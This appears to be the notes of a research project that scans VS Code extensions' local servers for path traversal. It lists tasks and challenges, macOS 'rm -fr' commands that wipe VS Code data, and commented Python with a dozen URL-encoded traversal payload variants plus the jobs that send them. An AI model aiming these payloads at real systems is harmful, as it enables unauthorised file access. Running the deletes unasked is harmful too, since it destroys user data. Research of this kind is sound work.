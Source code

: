 ## Pending Tasks

- ~~Figure out how to get the port number from the package.json file~~
- ~~Write 2 implementations one to figure out with regex and another to figure out with a `for` loop as fallback~~
- ~~Create a new html file with some specified content which will be used to check path traversal~~
- ~~Use the curl command or its variants to check for path traversal~~
- ~~Create a new output json which will hold all extensions with this vulnerability~~


## Extended Tasks

- Include package.nls.json files in the search


## Challenges

- Downloading multiple extensions at same time, Since Microsoft does not provide API to search based on keywords.
- Microsoft also limit number of requests for any particular IP address and extension ID.
- How to get the port number from the `package.json`, `package.nls.json` files.
- How to get the port number, which is currently used by the extension. (Most extensions allocate port numbers randomly)
- Checking for path traversal in the extension using variants of URI's, headers like `User-Agents` and other parameters.
- Automating the whole process using python coroutines made it much faster which was a challenge in itself.


    ## CLEAN VSCODE (If installing extension gives JSON error) `MACOS`
    
    - rm -fr ~/Library/Preferences/com.microsoft.VSCode.helper.plist 
    - rm -fr ~/Library/Preferences/com.microsoft.VSCode.plist 
    - rm -fr ~/Library/Caches/com.microsoft.VSCode 
    - rm -fr ~/Library/Caches/com.microsoft.VSCode.ShipIt/ 
    - rm -fr ~/Library/Application\ Support/Code/ 
    - rm -fr ~/Library/Saved\ Application\ State/com.microsoft.VSCode.savedState/ 
    - rm -fr ~/.vscode/

    `RETRY...`


        # url252f = "..%252fcookiehere.html"
        # url253266 = "..%25%32%66cookiehere.html"
        # local_host_url = "..%2fcookiehere.html"  # %252f is / and %2f is / and %25%32%66 is /
        # local_host_url252f = "..%252fcookiehere.html"
        # local_host_url253266 = "..%25%32%66cookiehere.html"
        # local_host_urlslash = "../cookiehere.html"
        # local_host_urldslash = "..//cookiehere.html"
        # local_host_url2slash = "%2e%2e/cookiehere.html"
        # local_host_url2dslash = "%2e%2e%2fcookiehere.html"
        # local_host_url2slash2slash = "..%2fcookiehere.html"
        # local_host_url2slash2dslash = "%2e%2e%2fcookiehere.html"
        # local_host_url2slash2slash2slash = "%252e%252e%252fcookiehere.html"


        # jobs.append((host_ip, port, url252f, extension))
        # jobs.append((host_ip, port, url253266, extension))
        # jobs.append((host_ip, port, local_host_urlslash, extension))
        # jobs.append((host_ip, port, local_host_urldslash, extension))
        # jobs.append((host_ip, port, local_host_url2slash, extension))
        # jobs.append((host_ip, port, local_host_url2dslash, extension))
        # jobs.append((host_ip, port, local_host_url2slash2slash, extension))
        # jobs.append((host_ip, port, local_host_url2slash2dslash, extension))
        # jobs.append((host_ip, port, local_host_url2slash2slash2slash, extension))
        # jobs.append((local_host_ip, port, url, extension))
        # jobs.append((local_host_ip, port, local_host_url, extension))
        # jobs.append((local_host_ip, port, local_host_url252f, extension))
        # jobs.append((local_host_ip, port, local_host_url253266, extension))
        # jobs.append((local_host_ip, port, local_host_urlslash, extension))
        # jobs.append((local_host_ip, port, local_host_urldslash, extension))
        # jobs.append((local_host_ip, port, local_host_url2slash, extension))
        # jobs.append((local_host_ip, port, local_host_url2dslash, extension))
        # jobs.append((local_host_ip, port, local_host_url2slash2slash, extension))
        # jobs.append((local_host_ip, port, local_host_url2slash2dslash, extension))
        # jobs.append((local_host_ip, port, local_host_url2slash2slash2slash, extension))
